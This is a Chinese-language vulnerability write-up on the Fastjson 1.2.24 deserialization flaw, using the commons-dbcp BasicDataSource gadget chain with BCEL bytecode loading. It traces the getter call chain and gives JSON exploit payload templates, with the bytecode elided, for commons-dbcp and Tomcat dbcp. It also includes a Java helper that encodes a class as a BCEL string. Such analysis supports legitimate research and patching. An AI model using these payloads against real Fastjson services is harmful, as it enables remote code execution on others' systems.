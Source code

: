 # Fastjson1.1.15-1.2.4与BCEL字节码加载

## 依赖

单纯为了复现罢了

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
<dependency>
    <groupId>commons-dbcp</groupId>
    <artifactId>commons-dbcp</artifactId>
    <version>1.4</version>
</dependency>
```

## 分析

漏洞利用点在`org.apache.commons.dbcp.BasicDataSource`这个类

我们也知道在执行parseObject时，会调用类中所有get方法，这很关键

正菜开始，在`org.apache.commons.dbcp.BasicDataSource#createConnectionFactory`中有

![](img/1.png)

看到这个else分支，便知道我们可以自定义类加载器去加载字节码，并且这两个参数都存在set方法，参数可控

![](img/2.png)![](img/3.png)

接下来我们就来看看是否在某个get或set方法当中能触发到这个关键，看到`createDataSource`调用了`createConnectionFactory`![](img/4.png)

可以看到`getConnection`又调用了`createDataSource`

![](img/5.png)

是个get方法，那好办了

调用栈也就出来了

![](img/6.png)

因此我们只需要构造出类似下面的payload即可

```json
{"@type":"org.apache.commons.dbcp.BasicDataSource","driverClassName":"$$BCEL$$XXXXXX","driverClassLoader":{"@type":"org.apache.bcel.util.ClassLoader"}}
```

分析完毕，顺便分享自己生成BCEL字节码的poc

```java
package bcell;

import com.mchange.v2.io.FileUtils;
import javassist.ClassPool;
import org.apache.bcel.classfile.Utility;


public class bcelEncode {
    public static String bcelEncode(String classFile) throws Exception {

        return "$$BCEL$$" + Utility.encode(ClassPool.getDefault().get(classFile).toBytecode(), true);
    }

    public static void main(String[] args) throws Exception{
        System.out.println(bcelEncode("bcell.TestBCELClass"));;
    }
}
```

## Other
```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>dbcp</artifactId>
    <version>6.0.53</version>
</dependency>
```
这个依赖也一样不过有一点点改变
```xml
{
        "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
        "driverClassLoader": {
            "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        "driverClassName": "$$BCEL$$$l$8b......"
}
```
也有可能是org.apache.tomcat.dbcp.dbcp.BasicDataSource，具体看当前环境
